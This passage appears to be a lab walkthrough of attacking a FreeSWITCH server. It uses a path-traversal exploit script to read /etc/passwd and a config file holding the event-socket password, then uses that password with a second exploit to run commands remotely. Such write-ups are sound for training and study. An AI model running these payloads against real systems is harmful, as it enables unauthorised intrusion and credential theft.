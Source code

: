 `systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin`
`systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin`
`messagebus:x:104:110::/nonexistent:/usr/sbin/nologin`
`sshd:x:105:65534::/run/sshd:/usr/sbin/nologin`
`systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin`
`ntp:x:106:113::/nonexistent:/usr/sbin/nologin`
`cassandra:x:107:114:Cassandra database,,,:/var/lib/cassandra:/usr/sbin/nologin`
`cassie:x:1000:1000::/home/cassie:/bin/bash`
`freeswitch:x:998:998:FreeSWITCH:/var/lib/freeswitch:/bin/false`
`anthony:x:1001:1001::/home/anthony:/bin/bash`

There is another user - anthony

Google search on the other service found in the original nmap - FreeSwitch

![](Pasted%20image%2020240209155822.png)

Download the script from the first result but it doesn't work

The second result is a MSF exploit - reading it, it shows this about the default FreeSwitch password
![](Pasted%20image%2020240209155938.png)

Go to the link and it describes more about how this config file sets up the password
![](Pasted%20image%2020240209160108.png)

Google to find out the base for the application
![](Pasted%20image%2020240209160246.png)

Let's try to read this file to double check the password
`└─$ python 49362.py 192.168.190.240 '../../../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml'`

`<configuration name="event_socket.conf" description="Socket Client">`
  `<settings>`
    `<param name="nat-map" value="false"/>`
    `<param name="listen-ip" value="0.0.0.0"/>`
    `<param name="listen-port" value="8021"/>`
    `<param name="password" value="StrongClueConEight021"/>`
  `</settings>`
`</configuration>`

The password is different than the default one so let's update it in our other script
![](Pasted%20image%2020240209160519.png)

`└─$ python 47799.py 192.168.190.240 'whoami'`                                                                      
`Authenticated`
`Content-Type: api/response`
`Content-Length: 11`

`freeswitch`

It worked! We now have RCE. 
